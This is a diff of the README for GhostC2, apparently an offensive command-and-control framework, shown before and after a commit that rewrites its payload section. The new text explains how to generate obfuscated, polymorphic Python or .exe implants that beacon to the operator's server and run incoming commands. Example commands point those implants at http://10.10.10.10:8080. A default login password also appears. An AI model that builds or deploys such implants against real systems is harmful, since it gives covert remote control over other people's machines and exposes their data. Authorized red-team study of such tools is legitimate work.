

Before and after one commit to wolfwashere/GhostC2, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -65,20 +65,46 @@ Password: ghostpass123
 
 ## 👾 Payloads
 
-### ✅ WebSocket Agent *currently being worked on use payload generator(!recommended) or ghost_payload.py(default payload for testing)*
+### ✅ WebSocket Agent *(experimental – not recommended for active use)*
+Basic agent that connects via WebSocket:
+
 ```bash
 python payloads/ghost_socket_payload.py
 ```
 
-### 🧬 Generate Polymorphic Payload
+---
+
+### 🧬 Generate Polymorphic Payload *(recommended)*
+This will generate an obfuscated Python payload that beacons to your GhostC2 server and executes incoming commands.
+
 ```bash
-python tools/generate_payload.py            # .py only
-python tools/generate_payload.py --exe      # .py + .exe
+# Generate a Python payload only
+python tools/generate_payload.py
+
+# Generate Python + compile to .exe (requires PyInstaller)
+python tools/generate_payload.py --exe
 ```
 
-Output saved to `builds/`
+Output will be saved to the `builds/` directory.
 
 ---
+
+### 🌐 Example: Generate payload for 10.10.10.10
+
+```bash
+python tools/generate_payload.py \
+  --c2 http://10.10.10.10:8080/beacon \
+  --result http://10.10.10.10:8080/result
+```
+
+To also compile to `.exe`:
+
+```bash
+python tools/generate_payload.py \
+  --c2 http://10.10.10.10:8080/beacon \
+  --result http://10.10.10.10:8080/result \
+  --exe
+```
 
 ## 🖥️ Operator Console
 
````
